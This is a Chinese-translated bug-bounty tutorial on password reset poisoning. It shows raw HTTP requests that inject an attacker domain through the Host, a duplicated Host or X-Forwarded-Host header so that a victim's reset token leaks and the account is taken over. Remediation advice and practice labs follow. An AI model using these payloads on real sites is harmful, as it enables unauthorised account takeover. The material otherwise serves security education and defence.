

# 利用密码重置中毒

> 原文：<https://infosecwriteups.com/exploiting-password-reset-poisoning-b748797f0661?source=collection_archive---------1----------------------->


来自 [Pixabay](https://pixabay.com/?utm_source=link-attribution&amp;utm_medium=referral&amp;utm_campaign=image&amp;utm_content=1583432) 的[摄影师](https://pixabay.com/users/thedigitalway-3008341/?utm_source=link-attribution&amp;utm_medium=referral&amp;utm_campaign=image&amp;utm_content=1583432)

迄今为止，我最赚钱的 bug 奖金之一来自一个密码重置中毒漏洞。这篇文章介绍了发现、利用和修复这个漏洞的过程，以帮助你在自己的披露中获得最大的回报！

# 概观

密码重置中毒是一种基于标题的攻击，攻击者可以操纵密码重置链接的 URL。通过在应用程序的密码重置过程中添加或修改 HTTP 请求头值，有可能覆盖发送给用户的链接的域:

```
Hi,Click the link below to reset your password:
https://<attacker-domain>/reset?token=123456789
```

单击后，重置令牌会被转发到攻击者控制的域，从而导致帐户被接管。


作者照片

# 剥削

1.  导航到 web 应用程序的“密码重置”页面。
2.  输入目标用户帐户的名称、用户名或电子邮件。
3.  使用 web 应用程序代理( *BurpSuite、OWASP-ZAP 等*)拦截请求并将`Host:`头值修改为攻击者控制的地址:
    *没有自己的服务器？打嗝合作者链接有帮助*🙂

```
POST /login/password-reset HTTP/1.1
Host: <attacker-domain>
..
{"email":"target-user@company.com"}
```

4.用户将从该网站收到一封合法的密码重置电子邮件。但是，包含秘密重置令牌的链接将显示我们修改的头值:
`**https://<attacker-domain>/reset?token=123456789**`

5.一旦用户单击，攻击者就可以拦截令牌并在目标应用程序上重放其值，从而成功重置受害者的密码以进行完全帐户接管！



由 [PortSwigger](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning https://portswigger.net/web-security/images/password-reset-poisoning.svg) 执行的工作流

# 高级开发

主机头不起作用？尝试这些技巧:

## **双主机头:**

根据服务器对 HTTP 请求中重复的`Host`头的反应，恶意输入可能优先于默认输入:

```
POST /login/password-reset HTTP/1.1
Host: example.com
Host: <attacker-domain>
...
```

## **测试覆盖标题:**

诸如`X-Forwarded-Host`、`X-Forwarded-Server`、`X-HTTP-Host-Override`和 `X-Host`之类的覆盖标头有时可以替代`Host`标头值，从而成功利用漏洞:

```
POST /login/password-reset HTTP/1.1
Host: example.com
X-Forwarded-Host: <attacker-domain>
...
```

# 补救

## 为什么会这样？

当网站依靠标题值来引导流量或制作页面链接时，可能会发生密码重置中毒。如果不加检查，攻击者可以注入他们自己的值并修改应用程序的预期行为。

## 怎么修？

最简单的方法是避免使用标题值来定义站点导航。请求头不是受保护的字段，可以被用户修改以注入恶意输入。此外，执行`Host`头验证并移除对覆盖头(如`X-Forwarded-Host`)的支持是很好的缓解策略。

要了解更多防范方法，请查看本文中[的](https://portswigger.net/web-security/host-header) [*防范 HTTP 主机报头攻击*](https://portswigger.net/web-security/host-header) 部分。

# 实践资源

想自己试试这个技巧吗？结账:

*   PortSwigger 实验室:[基本密码重置中毒](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning)。
*   PortSwigger 实验室:[通过中间件进行密码重置中毒](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)。
*   PortSwigger Lab: [通过悬空标记进行密码重置中毒](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup)。

感谢阅读！在 [m8sec.dev](https://m8sec.dev) 了解更多关于我的信息，并关注更多攻击性安全内容。

*免责声明:所有内容仅用于教育目的。作者不对信息的使用负责。不要对你不拥有或没有明确许可的系统进行测试。*